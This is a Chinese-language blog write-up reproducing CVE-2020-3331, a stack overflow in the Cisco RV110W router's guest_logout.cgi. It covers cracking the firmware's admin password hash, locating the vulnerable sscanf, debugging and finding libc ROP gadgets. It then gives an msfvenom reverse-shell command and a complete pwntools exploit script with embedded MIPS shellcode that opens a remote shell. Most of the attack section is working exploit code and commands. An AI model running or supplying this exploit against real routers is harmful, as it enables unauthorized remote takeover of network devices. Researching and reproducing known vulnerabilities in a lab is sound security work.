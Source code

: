 ```yaml
---
title: 路由器 RV110W CVE-2020-3331 漏洞复现
date: 2024-03-11 16:33:55
tags: [IOT, 路由器， Pwn]
categories: [技术]
excerpt: "IOT Reboot!"
thumbnail: "https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/RV110W_cisco.jpg"
---
```


某天发现实验室里有这个路由器，是学长留下的，那这不日日都说不过去了吧

参考：

[思科路由器 RV110W CVE-2020-3331 漏洞复现](https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/)

### Start

首先可以拿到该设备的固件，解包固件可以找到 `/etc/shadow` 里面存的 admin 用户的密码 hash

`/sbin/rc` :

![](https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/RV110W_rc.png)

使用 hashcat 可以对该 hash 进行爆破，需要事先准备一份弱密码字典，最后爆出来 密码是 `Admin123` 。有了密码，就能直接通过 telnet 远程连上路由，这样有 shell 比较方便复现漏洞

搜索 `login.cgi` 路由，以确定 web 服务器程序是哪一个

```bash
grep -rn "login.cgi" * 2>/dev/null
# 递归搜索关键字，并将stderr重定向到null
# '*' 表示搜索所有文件
# r 表示递归，n 表示显示行号
```

最终确定是 `/sbin/httpd`

分析 `/sbin/httpd` 程序中的 `guest_logout_cgi()` ，发现危险函数 `sscanf()`

```c
  v5 = (const char *)get_cgi("cmac");
  v7 = get_cgi("cip");
  v6 = (const char *)get_cgi("cip");
  for ( j = (char *)(v7 + strlen(v6) - 1); get_cgi("cip") < (unsigned int)j; *j-- = 0 )
  {
    v9 = *j;
    if ( v9 != 10 && v9 != 13 && v9 != 32 )
      break;
  }
  v10 = (const char *)get_cgi("cip");
  v11 = (const char *)get_cgi("submit_button");
  if ( !v11 )
    v11 = "";
  if ( v5 && v10 )
  {
    memset(v29, 0, 0x40u);
    memset(v28, 0, sizeof(v28));
    v12 = fopen("/dev/console", "w");
    v13 = v12;
    if ( v12 )
    {
      fprintf(v12, "\n  mac=[%s], ip=[%s], submit_button=[%s]\n", v5, v10, v11);
      fclose(v13);
    }
    if ( VERIFY_MAC_17(v5) && VERIFY_IPv4(v10) ) //MAC 和 IP 有效
    {
      if ( !strstr(v11, "status_guestnet.asp") ) //submit_button 包含 status_guestnet.asp
        goto LABEL_31;
      sscanf(v11, "%[^;];%*[^=]=%[^\n]", v29, v28);  
```

这个 `sscanf` 是在从`v11`正则匹配存到 `v29` `v28` ，存在栈溢出漏洞

匹配规则：`%`表示要，`%*`表示不要

- `%[^;]` 分号前面的所有字符都要，存在 `v29`
- `;%*[^=]` 分号后等号前所有的东西都不要
- `=%[^\n]` 等号后所有东西都要，存在 `v28`

比如 `aaa;bbb=ccc` 就是`aaa`和`ccc`被提取出

其实这个匹配不重要，此时 v11 就是 `submit_button=` 后面的值

故分析程序路径要到达这个 sscanf 得有三个参数且满足对应的要求：

1. cmac：MAC 地址格式
2. cip：IP 地址格式
3. submit_button: 包含 status_guestnet.asp

我们可以传输超长的 submit_button 项来测试是否会溢出，另外两个 cmac 和 cip 都有格式检测，唯有 submit_button 只需要包含字符串 `status_guest.asp` 即可

可以写一个 python 脚本来发包看看：

```bash
import requests

url = "https://192.168.1.1/guest_logout.cgi"
payload = {"cmac":"12:af:aa:bb:cc:dd","submit_button":"status_guestnet.asp"+'a'*100,"cip":"192.168.1.100"}
#requests.get(url, data=payload, verify=False, timeout=1)
requests.post(url, data=payload, verify=False, timeout=1)
```

post 上去之后，web 页面就无法访问了，为了得到更多的细节，我们可以传一个 gdbserver 上去远程调试

[https://gitee.com/h4lo1/HatLab_Tools_Library/tree/master/静态编译调试程序/gdbserver](https://gitee.com/h4lo1/HatLab_Tools_Library/tree/master/%E9%9D%99%E6%80%81%E7%BC%96%E8%AF%91%E8%B0%83%E8%AF%95%E7%A8%8B%E5%BA%8F/gdbserver)

```bash
./gdbserver --attach 0.0.0.0:1234 515 # httpd pid
```

经过调试，执行到 `sscanf` 时，v29 会匹配到 `submit_button` 的值，如果后面不加更多参数的话 v28 什么都匹配不到

v29 正好是该函数栈最底端的数据，紧接 fp 和 pc，那么覆盖 pc 将非常容易

![](https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/RV110W_stack.png)

```bash
pwndbg> distance 0x7fcc839c 0x7fcc8404
0x7fcc839c->0x7fcc8404 is 0x68 bytes (0x1a words)
# len("status_guestnet.asp") == 19
# 0x68-19 = 85
```

所以填充长度为85

```python
payload = b"status_guestnet.asp"+b'a'*85+p32(pc)
```

mips 没有 nx ，所以可以 shellcode in stack

如下图，函数退出时，这些寄存器都可以自由控制

![](https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/RV110W_ida.png)

首先得找到合适的 gadget, 把栈地址给寄存器，然后再跳到寄存器

不能使用程序本身的 gadget，因为程序的地址有`\x00` ，发过去就截断了，所以考虑使用 libc

经过调试发现 libc 的地址是固定的，并没有随机化，固定为 0x2af98000，可以在 libc 中查找 gadget

```bash
# stackfind 表示查找给寄存器赋栈地址值的 gadget,同时使用 move $t9 过滤跳转寄存器指令
ROPgadget --binary libc.so --mipsrop "stackfinder"|grep 'move $t9'
#0x002CBFC # la      $a0, _stdio_openlist_add_lock ; move    $t9, $s1 ; jalr    $t9 ; addiu   $a0, $sp, 0x28
# 该 gadget 将 sp+0x28 赋给a0，然后跳转到 s1,注意这里向前提了一条是防止地址有\x00
ROPgadget --binary libc.so |grep 'move $t9, $a0'
#0x0003d050 : move $t9, $a0 ; sw $v0, 0x18($sp) ; jalr $t9 ; addiu $a0, $sp, 0x18
# 跳转到栈地址
```

至于控制各寄存器的栈偏移位置可以用 `cyclic()` `cyclic_find()`测算

shellcode 的功能是反弹shell，所以开一个端口进行监听，shellcode 可以用[这个](http://shell-storm.org/shellcode/files/shellcode-860.php)，也可以用 msf 生成，我选择用 msf

```bash
msfvenom -p linux/mipsle/shell_reverse_tcp  LHOST=10.10.10.100 LPORT=31337 --arch mipsle --platform linux -f py -o shellcode.py
```

### exp

```python
from pwn import *
import thread,requests
context(arch='mips',endian='little',os='linux')
io     = listen(31337)
libc   = 0x2af98000

jmp_s0 = libc + 0x002CBFC # la      $a0, _stdio_openlist_add_lock ; move    $t9, $s1 ; jalr    $t9 ; addiu   $a0, $sp, 0x28
jmp_a0 = libc + 0x0003D050 # move $t9, $a0 ; sw $v0, 0x18($sp) ; jalr $t9

shellcode = b"\xff\xff\x04\x28\xa6\x0f\x02\x24\x0c\x09\x09\x01\x11\x11\x04\x28"
shellcode += b"\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += b"\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += b"\x27\x28\x80\x01\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x09\x09\x01"
shellcode += b"\xff\xff\x44\x30\xc9\x0f\x02\x24\x0c\x09\x09\x01\xc9\x0f\x02\x24"
shellcode += b"\x0c\x09\x09\x01\x79\x69\x05\x3c\x01\xff\xa5\x34\x01\x01\xa5\x20"
shellcode += b"\xf8\xff\xa5\xaf\x0a\x64\x05\x3c\x0a\x0a\xa5\x34\xfc\xff\xa5\xaf"
shellcode += b"\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
shellcode += b"\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
shellcode += b"\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
shellcode += b"\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
shellcode += b"\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
shellcode += b"\xab\x0f\x02\x24\x0c\x09\x09\x01"

# offset for s0: 49
#s1: 53
#s2: 57

payload = b"status_guestnet.asp" +b'a'*49+p32(jmp_a0)+32*b'a'+p32(jmp_s0)+0x28*b'a'+shellcode
#payload += cyclic(100)
paramsPost = {"cmac":"12:af:aa:bb:cc:dd","submit_button":payload,"cip":"10.10.10.100"}

def attack():
    try: requests.post("https://10.10.10.1/guest_logout.cgi", data=paramsPost, verify=False,timeout=1)
    except: pass

thread.Thread(attack,()).run()
io.wait_for_connection()
log.success("getshell")
io.interactive()

# reg 0x0431B58
#0x431bb0
```

[https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/](https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/)

其实我贴的这个文章中有一个错误，其选择的 libc gadget 0x000257A0 有一个指令为

```nasm
sw     $v0, 0x18($sp)
```

而 `$sp+0x18` 正好是他写 shellcode 的地方，此时 v0 为 0，这个指令会让 shellcode 第一条指令
`slti $a0, $zero, 0xFFFF` 变成 `nop`，导致第一个 syscall：close(stdin) 实际上没有正常执行